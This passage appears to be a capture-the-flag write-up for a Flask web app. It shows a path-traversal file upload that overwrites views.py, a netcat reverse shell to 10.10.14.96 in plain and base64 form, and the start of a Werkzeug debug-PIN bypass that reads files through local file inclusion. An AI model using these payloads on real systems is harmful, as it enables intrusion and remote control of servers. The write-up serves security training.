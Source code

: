 Intercepting the request to upload a file 

<img src="https://i.imgur.com/XIg4kct.png"/>

Now changing the filename to `/..//../app/app/views.py` this replace views.py which is on the server

<img src="https://i.imgur.com/deYgXCV.png"/>

<img src="https://i.imgur.com/w1BAoE6.png"/>

<img src="https://i.imgur.com/wt8W7p6.png"/>

I checked if `nc` was on the target machine

<img src="https://i.imgur.com/t3lRxlb.png"/>

We can just a openbsd nc reverse shell payload by encoding it to base64 and piping it to `sh` since `bash` wasn't there

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.96 3333 >/tmp/f
```

```
echo 'cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTQuOTYgMzMzMyA+L3RtcC9mCg==' | base64 -d | sh
```

<img src="https://i.imgur.com/9oT2uEU.png"/>

## Foothold (Method 2)

We can get foothold by generating the console PIN using the exploit from here

https://github.com/wdahlenburg/werkzeug-debug-console-bypass

Replacing the values  in  the exploit by reading the MAC from `/sys/class/net/eth0/address`,  boot-id from `/proc/sys/kernel/random/boot_id` and cgroup from `/proc/self/cgroup` also replacing the path to flask app , modname and the user running this flask app

We can get the MAC address through the LFI we found and convert it to decimal

<img src="https://i.imgur.com/3nWMOfg.png"/>

```python
mac = "02:42:ac:11:00:02"
int(mac.replace(":", ""), 16)
```

<img src="https://i.imgur.com/Ua6bEbV.png"/>

Reading the boot_id

<img src="https://i.imgur.com/P397oL7.png"/>
